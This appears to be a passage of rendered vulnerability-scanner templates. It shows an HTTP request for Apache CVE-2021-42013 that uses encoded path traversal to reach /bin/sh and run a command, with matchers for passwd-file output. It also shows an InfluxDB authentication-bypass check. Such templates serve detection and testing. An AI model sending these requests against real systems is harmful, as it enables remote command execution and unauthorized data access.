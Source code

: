 ### Step - 3

```
POST /cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/bin/sh HTTP/1.1
Host: {{Hostname}}
Origin: {{BaseURL}}
Content-Type: application/x-www-form-urlencoded

echo Content-Type: text/plain; echo; {{cmd}}


```

### Matchers

**Type - regex**

- name - LFI
- regex
  1. root:.\*:0:0:

**Type - word**

- name - RCE
- words
  1. CVE-2021-42013

---

# Authentication Bypass InfluxDB

## Description

- InfluxDB before 1.7.6 has an authentication bypass vulnerability in the authenticate function in services/httpd/handler.go because a JWT token may have an empty SharedSecret (aka shared secret).
- severity - critical
- tags - unauth,db,influxdb,misconfig

## Requests

- Method - GET

### URL

- {{BaseURL}}/query?db=db&q=SHOW%20DATABASES

### Matchers

**Type - word**

- part - body
- words
  1. "results":
  2. "name":"databases"
- condition - and
